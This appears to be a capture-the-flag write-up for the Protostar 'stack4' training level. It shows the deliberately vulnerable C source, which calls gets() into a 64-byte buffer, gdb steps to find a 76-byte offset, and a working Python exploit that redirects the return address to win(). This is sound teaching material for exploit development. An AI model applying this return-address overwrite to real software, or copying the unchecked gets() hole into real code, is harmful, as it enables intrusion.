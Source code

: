 # Stack4
## Briefing
Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints:

1. A variety of introductory papers into buffer overflows may help.
2. gdb lets you do “run < input”.
3. EIP is not directly after the end of buffer, compiler padding can also increase the size.
## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
## Solution
This challenge is pretty much the same as stack3, but we are overwriting the real return address instead of a variable.
So first as usual we need to find out the offset until we are overwriting the return address.
```
exploit = ''
exploit += 'A' * 64 # 64 Bytes in buffer
exploit += 'BBBBCCCCDDDDEEEEFFFFGGGG'

print(exploit)
```
Running this in the usual way, `python file.py > input`
`gdb /opt/protostar/bin/stack4`
`run < input`

```
Program recieved signal SIGSEGV, Segmentation fault. 
0x45454545 in ?? ()
```
We can see that there is a fault at the memory address 0x45454545.
0x45 is the hex ascii code for 'E' so we can see that the 4 'E' letters are controling the return address.
So there were 12 letters before 'EEEE' so that means that we need 76 letters of padding before we overwrite the return.
64 + 12 = 76
So lets modify the script:
```
exploit = ''
exploit += 'A' * 76
exploit += 'BBBB'

print(exploit)
```
If we have done our maths correctly the program should fault at 0x42424242, hex code for 'B'.
```
Program recieved signal SIGSEGV, Segmentation fault. 
0x42424242 in ?? ()
```
Ok we have full control of the return address, now we need to find the address of the function.
`p win`
```
$1 = {void (void)} 0x80483f4 <win>
```
So win is at 0x80483f4, great now we just need to add that to our script instead of 'BBBB' as our return address.
```
import struct
rp = struct.pack('<L', 0x80483f4)

exploit = ''
exploit += 'A' * 76
exploit += rp

print(exploit)
```
Now lets run this on the actual program because we should have a working exploit.
`/opt/protostar/bin/stack4 < input`
```
code flow successfully changed
```
